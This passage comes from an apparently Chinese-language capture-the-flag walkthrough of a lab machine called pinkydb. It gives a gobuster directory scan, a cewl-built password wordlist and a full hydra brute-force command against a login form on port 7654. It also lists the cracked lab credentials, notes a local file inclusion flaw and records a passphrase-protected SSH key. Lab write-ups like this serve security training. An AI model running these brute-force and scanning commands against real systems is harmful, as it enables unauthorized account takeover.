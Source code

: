 7654端口的web站点并未扫描到有价值信息

```plain
gobuster dir -u http:pinkydb:7654 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -o gobuster_info
```

### 社工字典、密码爆破（cewl、hydra）

cewl 生成单词列表作为密码字典 `cewl_pass.txt`，并基于已收集的信息构造简易的用户名字典`user_list`

```plain
cewl http://pinkydb/ -w cewl_pass.txt
cat cewl_pass.txt|sort -u|wc
```

hydra 对 [http://pinkydb:7654/login.php](http://pinkydb:7654/login.php) 表单进行暴力破解。

```plain
hydra -L user_list -P cewl_pass.txt pinkydb -s 7654 http-post-form "/login.php:user=^USER^&pass=^PASS^:Invalid Username or Password"
```

[![](assets/1703831476-2ac40dbda0a63388ae04033c40229086.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224504-859a6fb0-a4c6-1.png)

> 拿到了一组登录凭据并成功登录网站。pinky:Passione

### web登录、ssh尝试

[http://pinkydb:7654/login.php](http://pinkydb:7654/login.php) 登录pinky用户的账号。  
观察url可以发现有个很明显的本地包含漏洞  
给了个私钥可下载，从文本内容中推测用户名为stefano  
使用该密钥ssh登录需输入密码。  
修改id\_rsa权限600，提示需要passphrase，此密钥需要密码才能使用。
